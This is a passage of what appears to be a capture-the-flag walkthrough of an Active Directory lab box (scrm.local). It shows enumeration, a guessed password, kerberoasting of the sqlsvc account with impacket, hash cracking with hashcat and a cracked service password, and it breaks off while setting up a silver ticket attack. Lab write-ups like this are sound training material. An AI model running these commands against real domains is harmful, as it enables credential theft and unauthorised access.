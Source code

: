 ## User
To begin, we first enumerate the website. After some enumerating, we find a username `ksimpson` and that NTLM authentication is disabled, making this box slightly more difficult as now half our tools won't work as intended.

![capture-0](capture-0.PNG)
![capture-2](capture-2.PNG)

With some basic guessing, we find `ksimpson's` password is `ksimpson`.
A different method is using kerbrute.
![capture-3](capture-3.PNG)

We can check to see if any service accounts exist which are kerberoast-able
```
┌──(tsunami㉿coffee)-[~/Documents/scrambled]
└─$ impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -k -no-pass    
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 16:32:02.351452  2025-07-15 03:18:59.334852             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 16:32:02.351452  2025-07-15 03:18:59.334852     
```
We find that MSSQLSvc/dc1.scrm.local is roastable.
<br>
Due to a bug, we have to edit impacket slightly.
`/usr/share/doc/python3-impacket/examples/GetUserSPNs.py`
<br>Change `target = self.getMachineName()` to `target = self.__kdchost`
![capture-7](capture-7.PNG)

We can now perform a kerberos attack.
```
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -k -request
```
`-k` tells impacket to only use kerberos as its authentication method.
![capture-8](capture-8.PNG)

Use hashcat to crack the password.
```
hashcat -m 13100 -a 0 hash.txt -w /usr/share/wordlists/rockyou.txt
```
![capture-9](capture-9.PNG)

## sqlsvc
Now we have access to the sqlsvc account, we can export the service accounts ticket locally.
```
impacket-getTGT scrm.local/sqlsvc:Pegasus60
export KRB5CCNAME=sqlsvc.ccache
```
![capture-13](capture-13.PNG)
When trying to access mssqlclient via impacket, we find it doesn't work. 
However, one attack we can do with service accounts is a silver ticket attack.
We require 3 things to perform this attack.
- SPN
- NTLM 